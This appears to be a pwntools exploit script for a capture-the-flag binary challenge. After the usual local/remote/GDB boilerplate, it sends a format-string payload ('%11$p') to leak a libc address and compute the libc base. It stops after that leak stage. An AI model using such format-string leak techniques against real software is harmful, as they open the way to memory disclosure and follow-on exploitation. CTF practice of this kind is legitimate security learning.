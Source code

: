 ```py

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process(['./ld-2.27.so', exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./lib'

io = start(env={'LD_PRELOAD': './libc-2.27.so'})

def write(val):
    io.sendlineafter('> ', '1')
    io.sendafter('> ', val)

def read():
    io.sendlineafter('> ', '2')

def go():
    io.sendlineafter('> ', '3')


write(b'%11$p\x00')
read()
io.recvuntil(b'wrote.\n')
addr = int(io.recv('14'), 16)
log.success(f'libc: {addr:x}')
libc = ELF('./libc-2.27.so')
libc.address = addr - (0x00007fbf35a21b8e - 0x00007fbf35a00000)

log.success(f'libc: {libc.address:x}')

```
